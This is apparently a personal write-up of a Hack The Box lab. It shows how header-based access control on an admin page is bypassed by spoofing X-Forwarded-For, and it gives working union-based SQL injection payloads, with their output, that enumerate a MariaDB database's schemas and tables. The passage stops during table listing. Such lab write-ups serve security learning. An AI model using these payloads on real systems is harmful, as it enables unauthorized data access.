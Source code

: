 ### Enum
```bash
feroxbuster -u http://10.129.157.71:80/ -t 10 -w /root/.local/share/AutoRecon/wordlists/dirbuster.txt -x "txt,html,php,asp,aspx,jsp" -v -k -n -q -e -r -o 

200      GET        1l       15w       89c http://10.129.157.71/ADMIN.php
```

##### page source of admin.php
```php
<!-- To Do:
	- Import Products
	- Link to new payment system
	- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

##### wfuzz the host header
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers

Get the `http_header.list` through ChatGPT. Although, that's not 100% correct.

So let's use `http-request-headers-fields-large.txt`

```bash
wfuzz -c -w http_header.list -u http://$IP/admin.php -H "FUZZ: 192.168.4.28"

# Filter the chars
# --hc/hl/hw/hh N[,N]+      : Hide responses with the specified code/lines/words/chars

wfuzz -c -w /usr/share/seclists/Miscellaneous/web/http-request-headers/http-request-headers-fields-large.txt -u http://$IP/admin.php -H "FUZZ: 192.168.4.28" --hh 89

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                    
=====================================================================

000000145:   400        6 L      34 W       374 Ch      "Content-Length"                        
000000732:   501        6 L      26 W       343 Ch      "Transfer-Encoding"                
000000923:   200        153 L    466 W      7933 Ch     "X-Forwarded-For"    
```

Use `simple-modify-headers` on github.

### Web Enum
Now, I get the access of `admin.php`. Setup with `simple-modify-headers` with burp, let's SEARCH the sqli since it's quite obvious.

#### SQLI find number of columns
1. `'` 

```bash burp
POST /search_products.php HTTP/1.1
Host: 10.129.170.188
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://10.129.170.188
Connection: close
Referer: http://10.129.170.188/admin.php
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28
-: -

productName='

Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1		
```

2. `DWA'#`

No Products Found, it's same result as the legit `DWA`.

3. `' order by 7-- -`
						Error: SQLSTATE[42S22]: Column not found: 1054 Unknown column '7' in 'order clause'

So it has 6 columns.

#### Extract database names, table names and column names
* https://book.hacktricks.xyz/pentesting-web/sql-injection#extract-database-names-table-names-and-column-names
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema
* https://github.com/A1vinSmith/OSCP-PWK/wiki/SQL-Injection

The HTB Academy cheatsheet is also good.

###### list database names
```sql
productName='+Union+Select+1,2,3,4,5,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata--+-
```

|information_schema|,|mysql|,|warehouse|

###### Current database name
```sql
'+Union+Select+1,2,3,4,5,database()--+-
```

warehouse

###### List all tables in a specific database, warehouse
```sql
' UniOn Select 1,2,3,4,5,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema='warehouse'-- -
' UNION select 1,2,3,4,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='warehouse'-- -
```

|product|,|product_category|,|product_pack|

